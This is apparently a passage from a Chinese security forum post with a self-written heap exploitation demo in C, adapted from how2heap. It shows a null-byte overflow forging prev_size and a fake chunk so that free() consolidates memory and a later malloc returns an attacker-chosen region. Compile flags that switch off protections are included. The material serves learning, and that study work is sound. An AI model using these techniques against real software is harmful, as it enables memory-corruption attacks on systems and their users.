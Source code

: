 ```
    size_t* b_addr=(size_t *)(b-sizeof(size_t)*2);/*同时也是 chunk b 的prev_size*/
    printf("\033[1;33m这里创建一个堆块b,作为合并的关键堆块:\033[0m\n");
    printf("b的地址(含chunk头)： %p\n",b_addr);
    printf("b的size位：%#lx\n\b",*b_size_ptr);
    printf("b的prev_size: %#lx\n\n",*b_addr);
    /*
    接下来就是修改size和prev_size
    这里本来是想直接利用b相关的指针去修改b的size 和 prev_size，但是
    这样做体现不出通过a的溢出漏洞来修改，所以还是使用a相关的指针去修改。
    */
    printf("\033[1;33m那么，对于现在创建的堆块b，我们可以通过溢出去修改它的一些数据:\033[0m\n");
    a[a_size]=0;
    printf("修改后b的size位：%#lx\n",*b_size_ptr);
     
    /*
    接下来是计算，计算fakechunk的大小。fakechunk的大小当然不是0x100,
    它应该是从fakechunk到b中间这么大的一块区域
    */
    size_t fakesize=(size_t)((uint8_t *)(b_addr)-(uint8_t *)fakechunk);
    printf("b的prev_size应该用 b 的地址减 fakechunk 的地址: %p-%p=%#lx\n",b_addr,fakechunk,fakesize);
    *(size_t *)&a[a_size-sizeof(size_t)]=fakesize;
    printf("修改后b的prev_size: %#lx\n\n",*b_addr);
    /*为了正确的合并，fakechunk的size需要和prev_size对应上*/
    fakechunk[1]=fakesize;
    /*触发合并*/
    free(b);
    printf("合并后fakechunk的size: %#lx\n",fakechunk[1]);
    printf("是b.size+b.prev_szie+b.next_szie(也就是topchunk的大小)得来的\n");
    /*最后看分配到了哪里*/
    c=(uint8_t*)malloc(0x200);
    size_t* c_addr=(size_t *)(c-sizeof(size_t)*2);
    printf("\033[1;33m最后申清一个堆块c,并查看一下是否达到了我们的目的:\033[0m\n");
    printf("c的地址(包含chunk头)：%p\n",c_addr);
} 
```

### 说明

​ 请在 ubuntu16 下编译 (即使用 glibc-2.23)。编译时记得关掉 pie，这样便于打断点。  
​ 编译时参数 (只能在 64 位下编译)

```
gcc -ggdb demo.c -o demo -z execstack -fno-stack-protector -no-pie -z norelro
```

​ 这个 demo 是自己写的，在 how2heap 的基础上添加了一些基础的描述。希望可以更清楚的表达出，漏洞利的一个思路。同时，关于合并后的 size 大小，这里描述也做了修改。因为合并是 b 和 fakechunk 以及 topchunk，所以最后的大小理论上也是三个堆块的大小相加。  
![](https://bbs.kanxue.com/upload/attach/202506/989669_T7MM97AMG23GBQ3.png)  
​ 事实上，也确实如此

### 逐步演示

